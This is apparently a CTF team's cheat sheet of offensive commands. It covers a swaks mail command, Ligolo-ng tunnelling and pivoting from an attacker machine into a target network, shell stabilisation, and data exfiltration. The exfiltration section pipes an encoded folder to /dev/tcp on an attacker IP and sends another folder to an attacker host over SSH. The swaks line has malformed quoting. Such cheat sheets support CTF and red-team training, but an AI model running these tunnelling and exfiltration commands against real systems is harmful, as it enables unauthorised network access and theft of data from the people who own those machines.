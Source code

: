 # purplestorm-TTPs

A collection of commands, tools, techniques and procedures of the purplestorm ctf team.

## Table of Contents

- [Tooling](#tooling)
  - [Swaks](#swaks)
  - [Ligolo-ng](#ligolo-ng)
 
## Tooling

### Swaks

- [https://github.com/jetmore/swaks](https://github.com/jetmore/swaks)

```c
swaks --server example.com --port 587 --auth-user "user@example.com" --auth-password "password" --to "user@target.com" --from ""user@example.com" --header "Subject: foobar" --body "\\\<LHOST>\x"
```

### Ligolo-ng

- [https://github.com/nicocha30/ligolo-ng](https://github.com/nicocha30/ligolo-ng)

### Prepare Tunnel Interface

```c
$ sudo ip tuntap add user $(whoami) mode tun ligolo
```

```c
$ sudo ip link set ligolo up
```

### Setup Proxy on Attacker Machine

```c
$ ./proxy -laddr <LHOST>:443 -selfcert
```

### Setup Agent on Target Machine

```c
$ ./agent -connect <LHOST>:443 -ignore-cert
```

### Configure Session

```c
ligolo-ng » session
```

```c
[Agent : user@target] » ifconfig
```

```c
$ sudo ip r add 172.16.1.0/24 dev ligolo
```

```c
[Agent : user@target] » start
```

### Port Forwarding

```c
[Agent : user@target] » listener_add --addr <RHOST>:<LPORT> --to <LHOST>:<LPORT> --tcp
```


# Stabilizing Linux shell
```
script /dev/null -c bash
CTRL+Z
stty raw -echo; fg
reset
screen
```

# Exfiltrating Data
## via TCP socket, ebcdic and base64
### On kali:
```
nc -nlvp 80 > datafolder.tmp
```
### On target:
```
tar zcf - /tmp/datafolder | base64 | dd conv=ebcdic > /dev/tcp/10.10.10.10/80
```
### On kali:
```
dd conv=ascii if=datafolder.tmp | base64 -d > datafolder.tar
tar xf datafolder.tar
```
## via SSH
### On target:
```
tar zcf - /tmp/datafolder | ssh root@<attacker_ip> "cd /tmp; tar zxpf -"
```
### On kali:
```
cd /tmp/datafolder
```
